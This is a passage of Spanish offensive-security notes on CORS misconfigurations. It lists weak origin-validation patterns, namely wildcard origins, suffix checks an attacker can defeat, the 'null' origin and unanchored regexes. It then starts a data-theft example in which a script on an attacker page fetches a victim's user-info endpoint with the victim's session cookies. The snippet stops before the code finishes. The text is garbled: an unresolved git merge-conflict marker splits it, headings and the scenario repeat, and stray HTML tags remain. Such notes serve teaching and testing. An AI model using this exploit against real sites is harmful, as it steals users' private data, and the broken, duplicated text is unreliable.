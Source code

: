 ### Ejemplo de Explotación (Robo de Datos)

**Escenario:** Una víctima está autenticada en `https://victima.com`. El endpoint `https://victima.com/api/user-info` devuelve información sensible del usuario y tiene una configuración CORS insegura que refleja el `Origin` y permite credenciales.

**Código malicioso en `https://atacante.com/exploit.html`:**

```html
=======
1. `<strong class="font-bold">Access-Control-Allow-Origin: *</strong>`** (Wildcard) con Datos Sensibles (sin credenciales)**:

   * Si un endpoint expone información sensible que no requiere autenticación, y está configurado con `Access-Control-Allow-Origin: *`, cualquier sitio web puede solicitar y leer esos datos.
   * Como se mencionó, si `Access-Control-Allow-Credentials: true` se envía junto con `ACAO: *`, los navegadores no permitirán que el script lea la respuesta si la petición incluyó credenciales.
2. **Validación de Origen Débil o Defectuosa**:

   * **Subdominios mal validados:**

     * El servidor intenta permitir solo sus subdominios pero lo hace incorrectamente.

       * Ej: Permite `https://*.victima.com` pero el atacante registra `https://cualquiercosa.victima.com.atacante.com` y la validación (e.g., `endsWith(".victima.com")`) es engañada.
       * Ej: Permite `https://sub.victima.com` y el atacante encuentra una XSS en `sub.victima.com` para saltar la SOP.
   * `<strong class="font-bold">Access-Control-Allow-Origin: null</strong>`** + **`<strong class="font-bold">Access-Control-Allow-Credentials: true</strong>`:

     * El origen `null` se envía para archivos locales (`file:///`), redirecciones, o iframes *sandboxed*. Un atacante podría engañar a la víctima para que abra un archivo HTML malicioso o visite una página con un iframe sandboxed.
   * **Errores en Expresiones Regulares (Regex)**:

     * Si el servidor usa expresiones regulares para validar la cabecera `Origin`, una regex mal construida (e.g., falta de anclajes `^` y `$`, o patrones demasiado permisivos) puede permitir que orígenes maliciosos coincidan.
     * Ejemplo: `https?:\/\/victima\.com\.?` (el `.` final opcional podría permitir `victima.com.atacante.com`).
3. **Confianza Excesiva en Cabeceras HTTP que Pueden Ser Suplantadas (raro en CORS, más en otros contextos)**.

### [](https://notes.theoffsecgirl.com/04-explotacion-web/04a-control-de-acceso/cors#ejemplo-de-explotacion-robo-de-datos)

Ejemplo de Explotación (Robo de Datos)

**Escenario:** Una víctima está autenticada en `https://victima.com`. El endpoint `https://victima.com/api/user-info` devuelve información sensible del usuario y tiene una configuración CORS insegura que refleja el `Origin` y permite credenciales.

**Código malicioso en **`<strong class="font-bold">https://atacante.com/exploit.html</strong>`**:**

Copiar

```
>>>>>>> 9d393b1 (Mejora de apuntes CORS y ejemplos)
<script>
  fetch("https://victima.com/api/user-info", {
   method: "GET",
   credentials: "include" // Importante: envía cookies de sesión de la víctima para victima.com
  })
  .then(response => response.text()) // O response.json() si es JSON
  .then(data => {